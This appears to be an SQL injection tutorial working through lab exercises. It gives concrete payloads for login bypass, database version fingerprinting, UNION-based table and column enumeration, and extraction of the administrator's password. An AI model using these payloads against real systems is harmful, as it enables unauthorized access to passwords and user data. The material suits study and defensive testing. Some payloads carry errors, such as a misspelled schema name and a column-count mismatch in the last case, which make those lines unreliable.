 # What is SQL injection (SQLi) ?
SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

In some situations, an attacker can escalate a SQL injection attack to compromise the underlying server or other back-end infrastructure. It can also enable them to perform denial-of-service attacks.

# What is the impact of a successful SQL injection attack?
A successful SQL injection attack can result in unauthorized access to sensitive data, such as:

- Passwords.

- Credit card details.

- Personal user information.

SQL injection attacks have been used in many high-profile data breaches over the years. These have caused reputational damage and regulatory fines. In some cases, an attacker can obtain a persistent backdoor into an organization's systems, leading to a long-term compromise that can go unnoticed for an extended period.

# Some cases of SQL injection

## 1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

When the user selects the Gifts section, the query will be:

`SELECT* FROM products WHERE category='Gifts' AND released=1`

Implement insert `'or 1=1 --` then the question will be

`SELECT* FROM products WHERE category='Gifts' or 1=1 -- AND released =`

Then, `SELECT` will select all the information from products table.

## 2. SQL injection vulnerability allowing login bypass

When inserted into `administrator' or 1=1--` then when querying
`WHERE username = administrator' or 1=1-- 
will return a result of `TRUE`, so you can log in with a username of administrator.

## 3. SQL injection attack, querying the database type and version on Oracle

Use the query `'UNION SELECT 'abc' FROM DUAL`, which in turn increments the columns `SELECT` is needed to determine the number of columns that return the data of the preceding query. Because 
`UNION` only returns when both queries have the same number of columns and the dual table is an existing table 
in Oracle.

Continue querying the version by inserting `'UNION SELECT BANNER,' 'xyz' 
FROM V$VERSION.`

Since `UNION` is a combination, the data of both `SELECT` sentences will be displayed.

## 4. SQL injection attack, querying the database type and version on MySQL and Microsoft.

Edit the filter category one by one, increasing the number of columns returned. 

For example, you can insert `'UNION SELECT 'a'#`. 

The `#` sign at the end functions as a comment, similar to `--comment.`

Once you determine the number of data columns returned, modify the filter category to query the version by inserting `'UNION SELECT @@VERSION, NULL#.`

## 5. SQL injection attack, listing the database contents on non-Oracle databases.

Insert `'ORDER BY 2--` to check the number of data columns returned, when `'ORDER BY 3--` will return an Internal Server Error. Deduce the number of returned data columns is 2.

Insert `'UNION SELECT TABLE_NAME, NULL FROM INFROMATION_SCHEMA.TABLES--` to find tables that could contain user information. 

Continue inserting `'UNION SELECT COLUMN_NAME, NULL FROM INFROMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users_qoecyz'--` to find names of data columns.

After querying, we found that the names of the two columns are `username_X` and `password_Y`.

Next, insert `'UNION SELECT password_Y, NULL FROM users_qoecyz 
WHERE username_X = 'administrator'--` to retrieve the password of the administrator.

## 6. SQL injection attack, listing the database contents on Oracle

Insert `'UNION SELECT 'a', 'b' FROM DUAL--` to determine the number of columns returned.

Insert `'UNION SELECT TABLE_NAME, NULL FROM ALL_TABLES--` to find table names that contain user information.

Insert `'UNION SELECT COLUMN_NAME, NULL FROM 
ALL_TAB_COLUMNS WHERE TABLE_NAME = 'USERS_ELCPUF'--` to determine the column that contains usernames and user passwords. We can see that the two columns are `USERNAME_OTLSQB` and `PASSWORD_ALNMIB.`

Finally, after inserting `'UNION SELECT PASSWORD_ALNMIB, NULL FROM USERS_ELCPUF 
WHERE USERNAME_OTLSQB ='administrator'--` we can retrieve the administrator' password.

## 7. SQL injection UNION attack determining the number of columns returned by the query

We can insert `'UNION SELECT NULL, NULL, NULL--` or `'ORDER BY 3--` to find the columns returned. Increase the number of `NULL` select columns or the number of columns, respectively in the ordering. 

With `'UNION SELECT NULL, NULL, NULL--` returns an error if the number of select columns is not correct.

Using `'ORDER BY 3'` returns an error if the number of columns in the previous query is exceeded.

## 8. SQL injection UNION attack, finding a column containing text

Insert `'ORDER BY 3--` to determine the columns returned.

Try inserting one by one to identify the text return column:

`'UNION SELECT 'a', NULL, NULL--`

`'UNION SELECT NULL, 'a', NULL--`

`'UNION SELECT NULL, NULL, 'a'--`

`...`

## 9. SQL injection UNION attack, retrieving data from other tables

Insert `'ORDER BY 2--` to determine the comlumns returned.

Insert `'UNION SELECT TABLE_NAME, NULL FROM 
INFORMATION_SCHEMA.TABLES--` to determine table names that contain users' information.

Insert `'UNION SELECT COLUMN_NAME, NULL FROM 
INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users'--` to determine the columns that contain username and user password.

Last, insert `'UNION SELECT password FROM users WHERE username = 
'administrator'--` to retrieve the administrator's information.



